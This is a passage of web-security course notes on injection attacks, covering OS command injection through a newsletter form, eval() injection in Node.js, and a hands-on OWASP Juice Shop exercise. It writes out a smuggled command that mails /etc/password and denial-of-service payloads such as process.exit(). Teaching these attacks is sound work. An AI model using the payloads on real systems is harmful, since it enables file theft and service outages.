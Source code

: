 Input for injection attacks can be created via:

- Parameter manipulation of HTML forms (e.g. input fields are filled with JavaScript code);
- URL parameter manipulation;
- HTTP header manipulation;
- Hidden form field manipulation;
- Cookie manipulation.

Injection attacks on the server can take multiple forms, we first consider **OS command injection**:

![OS command injection](img/L8-os-command-injection.png)

:point_up: Here, we have a web portal that allows a user to sign up to a newsletter. The form looks simple enough: one `<input type="text">` element and a `<button>` to submit the form. On the server-side, a bash script takes a fixed confirmation string (stored in file `confirm`) and sends an email to the email address as stated in the user's input (*Thank you for signing up for our mailing list.*). This setup of course assumes, that the user actually used an email address as input. Let's look at benign and malicious user input:

- The benign input `john@test.nl` leads to the following OS command: `cat confirm|mail john@test.nl`. This command line is indeed sufficient to send an email, as Linux has a command line [mail](https://linux.die.net/man/1/mail) tool.
- An example of malicious input is the following: `john@test.nl; cat /etc/password | mail john@test.nl`. If the input is not checked, the server-side command line will look as follows: `cat confirm | mail john@test.nl; cat /etc/password | mail john@test.nl`. Now, two emails are sent: the confirmation email and a mail sending the server's file `/etc/password` to `john@test.nl`. This is clearly *unintended code execution.*.

Web applications that do not validate their input are also attackable, if they interpret the user's input as JavaScript code snippet. Imagine a calculator web application that allows a client to provide a formula, that is then send to the server, executed with the result being sent back to the client. JavaScript offers an [`eval()`](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval) function that takes a string representing JavaScript code and runs it, e.g. the string `100*4+2` can be evaluated with `eval('100*4+2')`, resulting in `402`. However, a malicious user can also input `while(1)` or [`process.exit()`](https://nodejs.org/api/process.html#process_process_exit_code); the former leads the event loop to be stuck forever in the while loop, while the latter instructs Node.js to terminate the running process. Both of these malicious inputs constitute a denial of service attack.

`eval()` in fact is so dangerous that [it should never be used](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/eval#Do_not_ever_use_eval!).

#### :bangbang: Juice Shop

1. To try out this attack, head to Juice Shop installation at https://juice-shop.herokuapp.com/
2. You can access the user reviews using the backend API `/rest/products/{id}/reviews`.
3. To see the first customer's review, go to: https://juice-shop.herokuapp.com/rest/products/1/reviews. You will see the review in JSON format.
4. Try out a few other values for `{id}`.
5. This indicates that the `{id}` is processed by the server as a user input. Let's see if we can execute commands using it.
6. Replace `{id}` with `sleep(2000)` and press Enter. You will observe that the server takes roughly 2 seconds to respond. This is because the `sleep(x)` command takes an integer as input that makes the program sleep for `x` ms.
7. To avoid real Denial of Service attacks, the Juice Shop will sleep for a maximum of 2 seconds. 
8. **Dangerous**: If you replace `{id}` with `process.exit()`, the application will crash and will need to be redeployed. Be **VERY** careful with this because you, including your fellow students, won't be able to access Juice Shop for the next 10 minutes!
